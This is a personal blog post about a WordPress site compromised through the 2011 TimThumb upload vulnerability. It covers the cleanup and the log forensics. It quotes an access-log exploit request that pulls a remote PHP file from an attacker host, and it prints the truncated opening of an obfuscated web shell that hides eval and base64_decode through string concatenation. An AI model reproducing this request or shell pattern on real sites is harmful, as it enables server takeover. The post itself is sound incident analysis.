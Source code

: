 It's not a WordPress security vulnerability exactly, but a lot of WordPress theme files include the open-source Timthumb library, and at the beginning of August 2011 it was discovered that this library contains a vulnerability allowing anybody to upload any PHP file to your server.

Now I must confess that this rang a bell. When I was redeveloping my website with WordPress earlier this year, I was in the market for a nice-looking theme which I could adapt to make it look as good as possible. I signed up with a couple of theme sites, <a href="http://www.elegantthemes.com/">ElegantThemes</a> and <a href="http://www.simplethemes.com/">SimpleThemes</a>.

I'd had an email from ElegantThemes on 4th August, a couple of days after the vulnerability was discovered. It warned that their themes used this vulnerable script, and that it would be a very good idea to update any of their themes I had installed to the latest versions from their site.

Well, I had the site up and running by this time, but I'd used SimpleThemes instead. I didn't have any ElegantThemes themes installed on the server.

Guess what? SimpleThemes were using the same vulnerable script. But I never received a similar email from them.

<strong>Cleaning Up</strong>

Now to tidy up my web server. It was straightforward to remove the hack code from pluggable.php, and to download the <a href="http://code.google.com/p/timthumb/">updated version of Timthumb</a> to replace the vulnerable version that was bundled with my WordPress theme.

But how exactly had the hacker exploited the vulnerable Timthumb to update my pluggable.php? It was important to find out, otherwise there could be intermediate files left on my web server which could be easily used to re-hack it.

I wanted to identify exactly when the hack had taken place. I tend to download my web server log files fairly regularly, although unfortunately not every single day, and my web host only had copies going back a couple of months. It turned out that I was at least able to verify that it was indeed the vulnerable thumbs.php that was exploited - this line in my log file was the giveaway:
<pre>88.198.51.36 - - [08/Aug/2011:04:39:45 +0200] "GET /wp-content/themes/impacto/thumb.php?src=http://picasa.com12345.dyndns.org/1.php HTTP/1.1" 400 153 www.textadventures.co.uk "-" "MSIE 7.0" "-"</pre>
So my server had been hacked on 8th August - only a week after the vulnerability was disclosed. If I'd been using ElegantThemes, <em>and</em> had acted as soon as I got their email on 4th August, I'd have been safe, but it shows how quickly people need respond to announcements of these kinds of vulnerabilities, and by "people" I mean both theme providers and the users of those themes.

In the cache directory was the PHP that had been uploaded by the hacker. It looks like this (line breaks added for some clarity):
<pre>&lt;?php $auth_pass = "47a85"."6c68e623468d"."84123e878"."81d1e3";
$color = "#df5";$default_action = 'File'.'sMan';$default_use_ajax = true;
$default_charset = 'Windo'.'ws-1'.'251';
preg_replace("/.*/e","ev" . "al(gz" . "inf" . "late(bas" . "e64_de" .
"co" . "de('5b1pdxrHEjD82fec+x9aE24GYoQA2bkOEli2LNlybMnR4lV+yAADT ...</pre>
Another obfuscated base64 encoded file, but this time with the extra sneakiness of using string concatenation to mask the calls to "eval" and "base64_decode". Even running the encoded text through an online decoder is no help, as it's GZ compressed into the bargain.

I'm not sure exactly when the hacker ran his uploaded PHP script, as I think that is missing from my log files as I probably didn't download that one at the time. I found another few hits from the same IP about a month later though, so this is clearly something they take their time over and keep quiet about.
